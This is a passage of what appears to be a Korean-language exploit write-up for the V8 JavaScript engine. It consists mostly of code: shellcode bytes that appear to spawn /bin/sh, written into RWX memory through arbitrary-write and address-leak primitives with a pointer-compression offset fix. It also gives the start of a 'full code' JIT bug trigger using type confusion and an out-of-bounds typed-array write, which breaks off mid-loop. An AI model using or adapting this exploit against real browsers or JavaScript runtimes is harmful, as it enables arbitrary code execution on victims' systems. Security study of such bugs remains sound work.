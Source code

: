   

- 셸코드를 실행하면 된다.

- pointer compression이 걸려있어서 **offset을 0x20에서 0x14**로 수정해주었다.

  ```jsx
  var shellcode = [0xbb48f631, 0x6e69622f, 0x68732f2f, 0x5f545356, 0x31583b6a, 0x050fd2];
  var shellcode_buf = new ArrayBuffer(0x100);
  var dataview = new DataView(shellcode_buf);
  aaw(addrof(shellcode_buf)+0x14n, rwx);
  
  for (var i=0; i<shellcode.length; i++) {
  	  dataview.setUint32(4*i, shellcode[i], true);
  }
  ```

  

- 전체 코드

  ```jsx
  class classA {
    constructor() {
      this.val = 0x4242;
      this.x = 0;
      this.a = [1,2,3];
    }
  }
  
  class classB {
    constructor() {
  	this.val = 0x4141;
      this.x = 1;
      this.s = "dsa";
    }
  }
  
  var A = new classA();
  var B = new classB()
  
  function f (arg1, arg2) {
    if (arg2 == 41) {
      return 5;
    }
    var int8arr = new Int8Array ( 10 ) ;
    var z = arg1.x;
    // new arr length
    arg1.val = -1;
    int8arr [ 1500000000 ] = 22 ;
    async function f2 ( ) {
      const nothing = {} ;
      while ( 1 ) {
        if ( abc1 | abc2 ) {
          while ( nothing ) {
            await 1 ;
            print(abc3);
          }
        }
      }
    }
    f2 ( ) ;
  }
  
  var i;
  // this may optimize and deopt, that's fine
  for (i=0; i < 20000; i++) {
      f(A,0);
  ```